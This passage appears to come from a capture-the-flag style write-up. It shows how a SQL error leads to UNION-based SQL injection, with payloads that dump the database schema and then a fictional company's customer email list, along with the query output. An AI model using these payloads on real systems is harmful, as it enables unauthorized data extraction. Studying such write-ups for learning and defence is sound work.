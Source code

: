 > Erreur : You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' ORDER BY section ASC' at line 1

Bingo! A simple SQL injection gives us the schema of the database :

```SQL
' union (select table_name, column_name, 3, 4, 5 FROM information_schema.columns) -- -
```

```
customer 	delivery_address 	3 	4 	5
customer 	email 	3 	4 	5
customer 	id 	3 	4 	5
customer 	name 	3 	4 	5
customer 	signup_date 	3 	4 	5
orders 	confidential 	3 	4 	5
orders 	customer 	3 	4 	5
orders 	delivery_date 	3 	4 	5
orders 	id 	3 	4 	5
orders 	item_name 	3 	4 	5
orders 	order_date 	3 	4 	5
orders 	order_status 	3 	4 	5
orders 	section 	3 	4 	5
orders 	supplier 	3 	4 	5
section 	capacity 	3 	4 	5
section 	confidential 	3 	4 	5
section 	id 	3 	4 	5
section 	last_update 	3 	4 	5
section 	name 	3 	4 	5
supplier 	address 	3 	4 	5
supplier 	id 	3 	4 	5
supplier 	name 	3 	4 	5
supplier 	website 	3 	4 	5
```

From there, we can extract all of the emails :

```SQL
' union (select email, 2, 3, 4, 5 from customer) -- -
```

Which are :

```
orders@acme.zz 	2 	3 	4 	5
orders@soylent.zz 	2 	3 	4 	5
orders@initech.zz 	2 	3 	4 	5
orders@kozey.zz 	2 	3 	4 	5
orders@massived.zz 	2 	3 	4 	5
orders@vehement.zz 	2 	3 	4 	5
orders@hooli.zz 	2 	3 	4 	5
orders@bailey.zz 	2 	3 	4 	5
orders@umbrella.zz 	2 	3 	4 	5
orders@smartchems.zz 	2 	3 	4 	5
orders@ecorp.zz 	2 	3 	4 	5
agent.malice@secret.evil.gov.ev 	2 	3 	4 	5
hbdlb@scep.eg 	2 	3 	4 	5
```
